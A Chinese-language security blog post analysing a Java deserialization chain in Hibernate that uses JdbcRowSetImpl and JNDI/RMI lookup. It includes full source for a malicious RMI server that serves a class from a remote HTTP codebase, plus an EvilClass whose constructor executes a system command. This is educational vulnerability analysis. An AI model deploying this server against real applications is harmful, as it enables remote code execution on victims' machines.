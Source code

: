 ```yaml
---
layout: post  
title: "java反序列化漏洞-金蛇剑之hibernate(下)"  
date: 2018-1-26  
description: "java漏洞"  
tag: 漏洞分析
---
```

## 前言:
  金蛇剑:此剑金光灿烂形状奇特，剑身犹如是一条蛇盘曲而成。蛇尾构成剑尖蛇头藏与剑柄，握在手中甚是沉重，原是由黄金铸造而成。此剑形状甚是奇特，整柄剑就如是一条蛇盘曲而成，蛇尾勾成剑柄，蛇头则是剑尖，蛇舌伸出分叉，是以剑尖竟有两叉。
##  主角:
 hibernate
##  介绍:
  Hibernate是一个开放源代码的对象关系映射框架，它对JDBC进行了非常轻量级的对象封装，它将POJO与数据库表建立映射关系，是一个全自动的orm框架，hibernate可以自动生成SQL语句，自动执行，使得Java程序员可以随心所欲的使用对象编程思维来操纵数据库。曾几何时，java web程序员必备面试宝典,ssh(spring+struts2+hibernate)，当年笔者上javaweb课时，老师安利ssh,可见hibernate当年影响力多大。今天笔者跟着大家一起来学习分析hibernate的反序列化漏洞。
## 正文:
  接着上一篇写，其实这篇和上篇利用链区别不是很大，只是将TemplatesImpl用JdbcRowSetImpl替换，要想讲清楚这个，必须先要讲下JNDI,翻译过来为Java命令和目录接口。其中在2016年blackhat大会上，有个很详细ppt。[https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE-wp.pdf](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE-wp.pdf)
  ![](http://ohsqlm7gj.bkt.clouddn.com/18-2-7/5208562.jpg)
  其中rmi,dns，ldap等等都是  JNDI 具体的实现方式。这篇的主角JdbcRowSetImpl，就是实现了rmi。RMI全称是Remote Method Invocation－远程方法调用，Java RMI在JDK1.1中实现的，其威力就体现在它强大的开发分布式网络应用的能力上，是纯Java的网络分布式应用系统的核心解决方案之一。关于具体用法可以参考这篇文章，[http://blog.51cto.com/haolloyin/332426](http://blog.51cto.com/haolloyin/332426),[http://blog.51cto.com/6221123/1112619](http://blog.51cto.com/6221123/1112619)学习完这篇文章，我们明白，服务端开启一个rmi服务，客户端通过调用lookup函数，可以获取一个远程java对象。在调用lookup函数之后，客户端会调用服务端对于该对象的构造函数。那么一个攻击思路出来了，就是寻找不安全调用lookup去访问服务端恶意构造的一个rmi服务，并在服务端针对该服务绑定一个java类，在java类的构造函数中进行xxoo,[http://www.codersec.net/2017/09/Spring-%E6%A1%86%E6%9E%B6%E7%9A%84%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/](http://www.codersec.net/2017/09/Spring-%E6%A1%86%E6%9E%B6%E7%9A%84%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/)
  JdbcRowSetImpl是被封装在idk中的一个类，通过巧妙的调用该类，可以去访问一个恶意的rmi服务。换句话说，如果能控制JdbcRowSetImpl，所有的java应用必将带来灾难性的毁灭。JdbcRowSetImpl类中的connect函数中调用了lookup,通过反查，看到prepare，getDatabaseMetaData，setAutoCommit调了connect。其实这方面已经有很多分析文章，例如廖新喜师傅的[https://www.anquanke.com/post/id/87300](https://www.anquanke.com/post/id/87300),返回org.hibernate.property.BasicPropertyAccessor中BasicGetter类中get函数
  ![](http://ohsqlm7gj.bkt.clouddn.com/18-2-7/448733.jpg)
  我们只需要将method改为prepare，getDatabaseMetaData，setAutoCommit三者任意一个，同时将target指定为JdbcRowSetImpl对象即可。构造一个恶意rim服务源码如下:
  
		public class EvilClass {
	    public EvilClass() throws Exception {
	        Runtime rt = Runtime.getRuntime();
	        String[] commands = {"open", "/Applications/Calculator.app/Contents/MacOS/Calculator"};
	        Process pc = rt.exec(commands);
	    }
		}
	
	public class EvilRmiServer {
    public static void main(String[] args){
        try {
            String serverAddress = "127.0.0.1";
            System.out.println("Start HTTP SERVER...");
            startHttpServer();
            System.out.println("Creating RMI Registry");
            registryRmi(serverAddress);
            //jndi的调用地址
            String jndiAddress = "rmi://"+serverAddress+":1099/Object";
            System.out.println(jndiAddress);
        } catch(Exception e) {
            e.printStackTrace();
        }

    }
    public static void startHttpServer() throws IOException {
        HttpServer httpServer = HttpServer.create(new InetSocketAddress(8088), 0);
        httpServer.createContext("/",new HttpFileHandler());
        httpServer.setExecutor(null);
        httpServer.start();
    }
    public static void registryRmi(String serverAddress) throws RemoteException, NamingException, AlreadyBoundException {
        Registry registry = LocateRegistry.createRegistry(1099);
        Reference reference = new javax.naming.Reference("EvilClass","EvilClass","http://"+serverAddress+":8088/");
        ReferenceWrapper referenceWrapper = new com.sun.jndi.rmi.registry.ReferenceWrapper(reference);
        registry.bind("Object", referenceWrapper);

    }
	}

这里有一个很关键的地方，运行服务，并且调用lookup之后会提示类无法加载,其实是package的问题，上面的类，都不要放在任何packeage里面，直接根目录。执行的过程同上一篇文章，但是要将类换成JdbcRowSetImpl，函数getDatabaseMetaData。
![](http://ohsqlm7gj.bkt.clouddn.com/18-2-7/67587264.jpg)
